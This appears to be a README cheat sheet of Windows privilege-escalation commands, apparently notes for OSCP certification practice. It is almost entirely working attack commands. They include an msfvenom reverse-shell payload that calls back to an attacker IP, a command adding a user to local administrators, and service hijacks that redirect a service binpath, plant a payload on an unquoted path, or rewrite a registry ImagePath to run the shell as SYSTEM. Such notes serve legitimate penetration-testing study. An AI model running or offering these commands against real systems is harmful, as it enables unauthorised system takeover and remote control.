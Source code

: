 # OSCP-Windows-Priv-Escalation

## Table of Contents
- [Windows Commands](#windows-commands)
 

Windows Commands
========================================================================================================
- root@kali: /tools# /usr/share/doc/python3-impacket/examples/smbserver.py tools .
- whoami
- net user user
- dir local.txt /s (Search local.txt)
- query user
- ipconfig
-  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
- net localgroup administrators <username> /add
- .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
- reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
- winPEASany.exe quiet cmd fast
- winPEASany.exe quiet cmd systeminfo
- sc qc daclsvc
- sc query daclsvc
- sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
- net start/stop <name>
- winPEASany.exe quiet servicesinfo > serviceinfo.txt
- more serviceinfo.txt
- net stop daclsvc
- net start daclsvc
- winPEASany.exe quiet servicesinfo
- accesschk.exe /accepteula -uwcqv user daclsvc
- accesschk.exe /accepteula -uwdq C:\
- accesschk.exe /accepteula -uwdq "C:\Program Files\"
- copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
- powershell -exec bypass
- PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
- accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
- accesschk.exe /accepteula -ucqv user regsvc
- reg query HKLM\system\currentcontrolset\services\regsvc
- reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
